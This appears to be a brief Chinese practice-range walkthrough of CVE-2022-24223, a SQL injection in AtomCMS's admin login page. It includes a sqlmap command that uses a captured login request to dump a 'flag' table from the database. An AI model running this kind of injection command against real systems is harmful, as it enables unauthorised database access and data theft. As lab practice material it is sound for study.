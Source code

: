 ![image-20230714151320392](%E9%9D%B6%E5%9C%BA.assets/image-20230714151320392.png)



## CVE-2022-24223 AtomCMS SQL注入漏洞

*靶标介绍：*

AtomCMS SQL注入漏洞

/admin/login.php 抓包

sqlmap -r 1.txt   -D atomcms -T flag --dump -v

![image-20230714152306525](%E9%9D%B6%E5%9C%BA.assets/image-20230714152306525.png)
